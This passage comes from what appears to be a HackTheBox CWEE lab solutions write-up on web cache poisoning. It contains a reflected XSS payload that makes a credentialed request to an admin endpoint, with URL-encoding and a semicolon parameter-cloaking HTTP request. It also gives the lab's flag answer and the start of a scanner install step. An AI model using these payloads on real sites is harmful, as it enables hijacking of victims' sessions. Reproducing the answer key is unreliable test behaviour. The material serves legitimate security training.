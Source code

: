 Code: js

```js
<script>var xhr=new XMLHttpRequest();xhr.open('GET', '/admin?reveal_flag=1', true);xhr.withCredentials=true;xhr.send();</script>
```

Code: js

```js
"><script>var xhr=new XMLHttpRequest();xhr.open('GET', '/admin?reveal_flag=1', true);xhr.withCredentials=true;xhr.send();</script>
```

Students need to URL-encode the payload, making sure that all semi-colons are URL-encoded as they are the separation character in `Bottle`:

Code: js

```js
%22%3E%3Cscript%3Evar%20xhr=new%20XMLHttpRequest();xhr.open('GET',%20'/admin?reveal_flag=1',%20true);xhr.withCredentials=true;xhr.send();%3C/script%3E
```

The payload will be injected in the latter "language" parameter, as it suffers from a reflective XSS vulnerability:

Code: http

```http
GET /?language=de&a=b;language=%22%3E%3Cscript%3Evar%20xhr=new%20XMLHttpRequest()%3bxhr.open('GET',%20'/admin?reveal_flag=1',%20true)%3bxhr.withCredentials=true%3bxhr.send()%3b%3C/script%3E HTTP/1.1
```

![[HTB Solutions/CWEE/z. images/c8f0b4fe3f1e39729416371f83c3d2e4_MD5.jpg]]

After waiting for a few seconds, students will notice that the admin has triggered the XSS payload, as the `/flag` page displays the flag `HTB{cac766b823bbd388727162d634fa7503}`:

![[HTB Solutions/CWEE/z. images/725820e9a93fd6a13a424d253cc7db8a_MD5.jpg]]

Answer: `HTB{cac766b823bbd388727162d634fa7503}`

# Tools & Prevention

## Question 1

### "Use WCVS to identify an HTTP header vulnerable to web cache poisoning in the provided web application."

After spawning the target machine, students first need to download [Web Cache Vulnerability Scanner](https://github.com/Hackmanit/Web-Cache-Vulnerability-Scanner) using `go`:

Code: shell

```shell
go install github.com/Hackmanit/Web-Cache-Vulnerability-Scanner/v2@latest
```
